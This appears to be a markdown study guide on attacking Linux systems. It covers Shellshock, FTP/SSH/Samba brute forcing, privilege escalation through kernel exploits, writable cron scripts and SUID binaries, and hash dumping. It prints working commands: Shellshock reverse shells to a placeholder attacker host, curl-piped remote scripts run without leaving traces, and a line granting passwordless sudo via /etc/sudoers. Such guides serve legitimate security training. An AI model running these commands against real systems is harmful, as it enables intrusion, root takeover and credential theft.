

# Table of contents

- [Frequently Exploited Linux Services](#1)
  - [What is Linux?](#1,1)
  - [Exploiting Shellshock (CVE-2014-6271)](#1.2)
  - [Exploiting FTP](#1.333)
  - [Exploiting SSH](#1.4)
  - [Exploting Samba](#1.5)
- [Linux Privilege Escalation](#2)
  - [Linux Kernel Exploitation](#2.1)
  - [Exploiting Inscure Cron Jobs](#2.2)
    - [What are Cron Jobs?](#2.2.1)
  - [Exploiting SUID Binaries](#2.3)
    - [What are SUID Binaries?](#2.3.1)
- [Linux Credential Dumping](#3)
  - [Dumping Linux Hashes](#3.1)

<a id=1></a>
# Frequently Exploited Linux Services

<a id=1.1></a>
## What is Linux?

Linux is a free and open source kernel. It is better known as part of GNU/Linux distributions such as
Arch Linux, Debian, Centos, and more. It was developed in first instance by Linus Torvalds in 1991 and
later released as an open source project impulsed by the Free Software Foundation (FSF).

As mentioned previously, Linux is typically bundled with GNU which was first developed and impulsed by
Richard Stallman, founder of the GNU Foundation (GNU is Not Unix) and the Free Software Foundation.

Linux is mainly currently being developed in C under the GPLv2 license.

Linux has a variety of use cases, but its most commonly seen in servers. The type may vary of course, but
it ranges from web servers, DNS servers, mail servers and so on and so forth.

This services are the main attack vector threat actors will look for and try to exploit. Some of these
services are:

| Service           | What it does    | Commonly seen ports |
|------------------ | --------------- | ------------------- |
| httpd/apache      | Web services.   | 80, 443, 8080       |
| nginx             | Web services    | 80, 443, 8080       |
| mysql             | DBMS            | 3306                |
| ftp/vsftpd        | FTP services    | 21, 2211            |
| ssh               | Secure Shells   | 22, 2222, 22222     |
| samba             | CIFS service    | 445                 |
| telnet (uncommon) | Telnet          | 23                  |

<a id=1.2></a>
## Exploiting Shellshock (CVE-2014-6271)

Shellshock is the name given to a family of vulnerabilities that existed in Bash since the 1.3 release.
This vulnerability allows an attacker to execute arbitrary remote commands via Bash and consequently
gaining a remote shell access.

It was discovered on 12th of September 2014 and released to the public on the 24th of September 2014.

The vulnerability allows an attacker to make Bash mistakenly execute commands after a series of characters:
()\{:;\};.

In the context of remote exploitation, Apache web servers configured to use CGI scripts or shell scripts are also
vulnerable to this attack.

Common Gateway Interface (CGI) are scripts ran by Apache to execute arbitrary commands on a Linux server, after which
the output is displayed to the user.

In order to remotely exploit this vulnerability we have to find a vulnerable form that runs a shell script or a CGI
script in an Apache web server. Or we can try to find a RCE vulnerability in a webpage and try to communicate with Bash.

```bash
$ nmap -sV [TARGET] --script http-shellshock --script-args "http-shellshock.uri=/path/to/script.cgi"
# If vulnerable, you'll most probably have to fire up Burpsuite and configure the proxy to pass arbitrary
# HTTP headers to check whether we can to RCE.
# We can create a reverse shell with the following input (put it in a header!)
$ bash -i>& /dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] 0>&1 
# We can also exploit it manually using Curl.
$ curl -A "() { :; }; /bin/bash -i >& /dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] 0>&1" [TARGET]/script.cgi &
# I tried using setsid, but it didn't work :(
msf5 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf5 > set RHOSTS [TARGET]
msf5 > set TARGETURI [TARGET_URI]
msf5 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf5 > setg RHOSTS [TARGET]
msf5 > set TARGETURI [TARGET_URI]

```

<a id=1.3></a>
## Exploiting FTP

FTP is a protocol usually found in port 21. It's used for transferring files from one machine to another.

FTP authentication uses a username and password. Because of this, one of the attack vectors most commonly used
are bruteforce attacks.

In some cases, FTP servers may allow anonymous logins, which gives unauthenticated access to the FTP server.

```bash
# Check the FTP version and type. Nowadays the most common are vsftpd, proftpd and others.
$ hydra -L /path/to/users -P /path/to/passwords [TARGET] ftp
# You could use the ftp_login module in the MSF, but it's usually slower.
```

<a id=1.4></a>
## Exploiting SSH

Secure Shell (SSH) is a common protocol used for remote CLI administration of a system. It usually runs on ports
22 and sometimes in 222 or 2222. 

Given the fact that SSH uses (mainly) username and password to authenticate, bruteforce attacks are usually the
way to go. Let's not forget that a second authentication method exists: through PKI (Public Key Infrastructure).
We'd need a private key to log in a machine with no credentials needed.

```bash
$ hydra -L /path/to/users -P /path/to/passwords [TARGET] ssh {-t [TASKS]}
# Again, you could use the MSF modules ssh_login, but it is slower than Hydra.
```

<a id=1.5></a>
## Exploiting Samba

Samba is the open source implementation of the proprietary SMB protocol, aka CIFS.

It usually runs on port 445, but it can also be found in 137 to 139.

To exploit this service we can use the following tools: 

- nmap NSE scripts
- smbclient
- smbmap
- hydra
- crackmapexec
- smb modules for MSF

```bash
# First lets get some credentials.
$ hydra -L /path/to/users -P /path/to/passwords [TARGET] smb
# Change -L for -l if you already have a username at hand.
$ smbmap -H [TARGET] -u [USERNAME] -p [PASSWORD] {-x [COMMAND]} {-d [DOMAIN_NAME]} {-s [SHARE]}
$ smbclient -L "[USERNAME]" {-N [NO_PASSWORD!]} //[TARGET]/[TARGET_SHARE]
$ enum4linux -a [TARGET] -u "[USERNAME]" -p "[PASSWORD]" {-S {SHARES}} {-G {GROUP AND MEMBERS}}
```

<a id=2></a>
# Linux Privilege Escalation

<a id=2.1></a>
## Linux Kernel Exploitation

Kernel exploits will typically target vulnerabilities in the Linux kernel to execute arbitrary commands
on a system or to be able to inject shellcode to a process.

Of course this process will differ depending on the kernel version and type of vulnerabilities found in that
given kernel. 

The privilege escalation process on Linux tends to follow this methodologies:

- Identifying kernel vulnerabilities
- Downloading, compiling, transferring and executing exploits on a target.

Tools that we will use: 

- Linux Exploit Suggester: https://github.com/The-Z-Labs/linux-exploit-suggester
- Linpeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

The environment will be a Ubuntu 12.04 virtual machine. Remember that running kernel exploits is dangerous. You
might have data loss, so be careful when running them on production machines or in a real working environment.

```bash
$ curl -L https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh | bash
# This will run the script without Downloading a single byte. Useful because we don't want to leave traces.
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | bash
# This will do the same with Linpeas.
# The output of Linpeas might be gigantic, but it's a great enumeration tool that will greatly help us in the
# exploitation process. Although I will admit that this script isn't a Linux kernel exploitation mechanism, or rather
# it doesn't focus only on that. But if anything comes up, we'll be able to use it.
```

<a id=2.2></a>
## Exploiting Insecure Cron Jobs

<a id=2.2.1></a>
### What are Cron Jobs?

A cron job is similar to what a scheduled task is on Windows. It's a script or a series of script that are configured
by a cron file to be executed periodically. The periods are user defined and the scripts are too. This tasks are managed
by a cron service. Some of them might be cronie, fcron, kcron, crontab and more.

They have the following structure:

```bash
* * * * * /command > to > run
# This means:
# Minute (0-59), hours (0-23), day of month (1-31), month (1-12) and day of week (0 through 6, where 0 is sunday) plus the command
# to execute. The format might seem complicated at first, but with time you'll be a cron masta.
```

You can check the actively running (as in scheduled to run at X point in time) cron jobs in the crontab file. The location might vary,
but you can usually find it using a command like the `find / -name "crontab" 2>/dev/null`. This won't always work, because we might
not have read permissions of that file. So, we have to find another clues on what cronjobs are being ran, and where the scripts (if any)
are, what the permissions of those files are and whether we can do anything with them or not.

Since all a cronjob does is execute a command or **a script**, we can try to exploit this. If, for example, a cron job is configured
to run the script "backup.sh", we can check if we can write into that particular script. If we can, we could create ourselves a user
in the system with elevated privileges by just modifying the script and adding a few commands at the end. This will of course
depend on whether we have write permissions to that file.

```bash
# The golden standard of what we want to do is the following:
$ printf '#!/bin/bash\necho "user ALL=NOPASSWD:ALL" >> /etc/sudoers' > /bin/backup_script.sh
# Change the backup_script for the name of the script. Another way of doing this can be:
$ echo 'echo "user ALL=NOPASSWD:ALL" >> /etc/sudoers' >> /bin/backup_script.sh'
# This way we will append our new line of commands to the file, without deleting the previously
# existing content.
# Let's make an example. Say that there is a script somewhere that creates a backup of the 
# /etc/shadow file. We know this because a shadow_bkp file exists in the /etc directory. Let's try to find the script.
$ grep -rnw / -e "/etc/shadow_bkp" 2>/dev/null
# This will check all files on the machine looking for a script that contains the /etc/shadow_bkp string. This is thanks
# to regex!!!! So try to read about regular expressions too, they're quite handy.
```

<a id=2.3></a>
## Exploiting SUID Binaries

<a id=2.3.1></a>
### What are SUID Binaries?

SUID (Set User Identifier) binaries are binaries typically written in C that make use of a couple syscalls
that allow it to run as another user, whether we are that user or not. An example of this is the passwd binary.



As we can see, the permissions are different from the usual `drwx-rwx-rwx` type. The `s` means "SUID" bit. In this
case, the passwd binary must have this bit set, because the command modifies the /etc/shadow file, which is
only writable with the root user.

This can be achieved in a couple of ways. Using the setresuid(2), setreuid(2) and another few syscalls.

In order to exploit an SUID binary, we have to check the following:

- Who owns the binary? 
- What are our permissions over the binary? We'll need to execute the binary.

Exploiting an SUID binary might be a little more complex compared to what we've done before, but let's try it.

```bash
# In the labs we have a SUID binary "welcome". So I'll use that as an example.
$ file welcome
# This will tell us the type of file we're working with. In this case its an setuid ELF binery.
$ strings welcome | less
# We'll check the strings in the binary. The program calls another program, so we could try to
# replace it with our own binary. Or we could just copy and paste a binary.
$ rm greetings
$ cp /bin/bash greetings
```

<a id=3></a>
# Linux Credential Dumping

<a id=3.1></a>
## Dumping Linux Hashes

Linux has multi-user support. Meaning that more than one user can be connected to a single
Linux machine at the same time. This is good and bad, because if a user has low strength credentials,
perhaps the entire system might be doomed.

All of the information about users is stored in the /etc/passwd file. This file is readable by everyone, but
this file does not contain any password hashes. And even if it did, in hash form these hashes are useless,
because unlike NTLM hashes we cannot use them as credentials.

What we can do is crack them. The difficulty lays on actually getting the hashes from the machine, given the fact
that these strings are stored in the /etc/shadow file, which isn't readable by anyone other than the root user.

Linux uses different hashing algorithms, some easier to crack than others. We can identify them by their 
$N value. Some of these algorithms are:

| Identifier     | Hashing algorithm    | Crackability | 
|--------------- | -------------------- | ------------ |
| $1             | MD5                  | Too easy.    |
| $2             | Blowfish             | Easy.        |
| $5             | SHA-256              | Possible.    |
| $6             | SHA-512              | Good luck.   |


